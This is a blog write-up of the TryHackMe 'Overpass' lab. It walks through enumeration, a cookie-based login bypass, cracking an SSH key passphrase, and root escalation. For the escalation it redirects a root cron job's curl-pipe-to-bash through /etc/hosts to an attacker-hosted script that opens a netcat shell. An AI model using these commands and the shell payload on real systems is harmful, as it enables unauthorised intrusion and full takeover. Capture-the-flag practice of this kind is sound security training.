

+++
title = "Overpass - TryHackMe Writup"
description = "Breaking the password manager."
date = 2024-10-23
slug = "overpass"
image = "overpass.png"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["overpass", "tryhackme", "bind shell", "linpeas"]
+++

  

    
  

  

    <i>What happens when some broke CompSci students make a password manager?</i>
  

## 1. Enumeration
Target IP address: 10.10.4.48

Two ports are open.

<pre>
❯ nmap -sV 10.10.4.48 -v

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10628/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

Okay, now starting by searching directories using gobuster as

<pre>
❯ gobuster dir -u http://10.10.4.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
......
</pre>

We got admin as interesting and there is a login page.

There is client side login logic found in `login.js`, the main script is 

<pre>
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
</pre>

It seems that, if the value of `statusOrCookie` is `Incorrect Credentials`, then the error occurs, otherwise log on. Lets try to tweak the variable `statusOrCookie`. May be directly hampring this pariable is difficult as this is from backend side. Instead we can set the cookies, as shown in else block to any value.

## 2. Attacking

Lets try in console, by inspecting the page. Did this and refrest, I got logged in ant there I found RSA private key.

The message found there is

<pre>
Welcome to the Overpass Administrator area
A secure password manager with support for Windows, Linux, MacOS and more
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox
</pre>

That means we need to crack this key to get ssh password. We can use `ssh2john`. It converts ssh key into password hash and can be cracked using john. 

`ssh2john rsa_private_key > password_hash`, here rsa_private_key contains the private key found in the admin page after login.

<pre>
❯ john --wordlist=/usr/share/wordlists/rockyou.txt password_hash
.........
Press 'q' or Ctrl-C to abort, almost any other key for status
jam****          (rsa_private_key)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:06 DONE (2024-10-10 08:41) 0.1652g/s 2370Kp/s 2370Kc/s 2370KC/sa6_123..*7¡Vamos!
Session completed
</pre>

Now we have ssh password/passphrase for the user `james`

## 3. Capture the flag
Login via ssh and capture the user flag as

Here first, change the permission of the private key to `400` that means only the owner read the key. After that connect via ssh and provided passphrase to logged in, then found the `user.txt`

There is todo.txt is found, it is
<pre>
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
</pre>

## 4. Privilege escalation
There is the mention of automated build script. Maybe this can be helpful, but we need to enumerate first.

I have downloaded `linpeas.sh` into my local machine, created http server using python as `python -m http.server` then download the script in target machine and ran there.

Importent finding can be `/etc/hosts` file is writable by every user including we. Also looking into cornjob

<pre>
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
</pre>

There is a script running by root, everytime and hosted in overpass.thm domain. So we need to setup payload in such a way that while running this job, our payload will be downloaded and runned so that the victim will be connected to out machine, using bind shell.

For that need to setup server and path like this in my local device and need to add DNS record in /etc/hosts as shown below

`10.17.58.84 overpass.thm`

and the payload used in buildscript.sh is 

`mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Here we go, got root flag too.

Happy Hacking !!